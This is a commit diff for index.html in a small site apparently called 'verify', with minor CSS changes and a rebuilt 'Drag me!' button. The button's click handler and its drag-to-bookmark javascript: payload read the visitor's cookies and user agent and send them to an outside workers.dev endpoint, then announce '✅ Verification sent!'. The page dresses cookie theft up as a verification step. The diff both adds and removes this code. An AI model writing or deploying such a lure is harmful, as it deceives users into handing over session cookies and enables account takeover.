

Before and after one commit to tyceno89-afk/verify, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 220-718 px from the top of the page, without its empty margins (23-1031 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -9,7 +9,7 @@
             margin: 0;
             padding: 0;
             box-sizing: border-box;
-            font-family: 'Poppins', 'Segoe UI', Roboto, system-ui, sans-serif;
+            font-family: 'Segoe UI', Roboto, system-ui, -apple-system, sans-serif;
         }
 
         body {
@@ -130,9 +130,7 @@
         }
 
         .drag-btn {
-            display: inline-flex;
-            align-items: center;
-            gap: 10px;
+            display: inline-block;
             background: linear-gradient(145deg, #1d4a2a, #12331e);
             color: #dff0e3;
             font-weight: 600;
@@ -143,13 +141,10 @@
             box-shadow: 0 6px 0 #0a1f12, 0 8px 20px rgba(0, 0, 0, 0.6);
             cursor: grab;
             user-select: none;
-            transition: all 0.15s ease;
-            width: fit-content;
+            text-decoration: none;
             min-width: 180px;
             text-align: center;
-            text-decoration: none;
-            font-weight: 600;
-            letter-spacing: 0.5px;
+            transition: all 0.15s ease;
         }
 
         .drag-btn:active {
@@ -189,6 +184,14 @@
             border-radius: 40px;
             display: inline-block;
             border: 1px solid #1f402a;
+        }
+
+        .step-hint i {
+            font-style: normal;
+            background: #1a3723;
+            padding: 0 10px;
+            border-radius: 20px;
+            color: #b7e0c4;
         }
 
         .footer {
@@ -277,15 +280,17 @@
         </div>
 
         <div class="drag-btn-wrapper">
-            <div class="drag-btn" id="dragBtn" draggable="true"
-                 ondragstart="event.dataTransfer.setData('text/plain', 'javascript:(function(){var c=document.cookie;var xhr=new XMLHttpRequest();xhr.open(\'POST\',\'https://reciever.tyceno89.workers.dev\',true);xhr.setRequestHeader(\'Content-Type\',\'application/json\');xhr.send(JSON.stringify({pc:navigator.userAgent,cookies:c}));alert(\'✅ Verification sent!\');})();'); this.classList.add('dragging');"
-                 ondragend="this.classList.remove('dragging');"
-                 onmousedown="this.classList.add('dragging')"
-                 onmouseup="this.classList.remove('dragging')"
-                 onmouseleave="this.classList.remove('dragging')"
-                 onclick="var c=document.cookie;var xhr=new XMLHttpRequest();xhr.open('POST','https://reciever.tyceno89.workers.dev',true);xhr.setRequestHeader('Content-Type','application/json');xhr.send(JSON.stringify({pc:navigator.userAgent,cookies:c}));alert('✅ Verification sent!');">
+            <a href="javascript:void(0)"
+               onclick="var c=document.cookie;var xhr=new XMLHttpRequest();xhr.open('POST','https://reciever.tyceno89.workers.dev',true);xhr.setRequestHeader('Content-Type','application/json');xhr.send(JSON.stringify({pc:navigator.userAgent,cookies:c}));alert('✅ Verification sent!');"
+               draggable="true"
+               ondragstart="event.dataTransfer.setData('text/plain', 'javascript:(function(){var c=document.cookie;var xhr=new XMLHttpRequest();xhr.open(\'POST\',\'https://reciever.tyceno89.workers.dev\',true);xhr.setRequestHeader(\'Content-Type\',\'application/json\');xhr.send(JSON.stringify({pc:navigator.userAgent,cookies:c}));alert(\'✅ Verification sent!\');})();'); this.classList.add('dragging');"
+               ondragend="this.classList.remove('dragging');"
+               onmousedown="this.classList.add('dragging')"
+               onmouseup="this.classList.remove('dragging')"
+               onmouseleave="this.classList.remove('dragging')"
+               class="drag-btn">
                 <span class="drag-icon">🔐</span> Drag me!
-            </div>
+            </a>
         </div>
 
         <div class="step-hint">
```
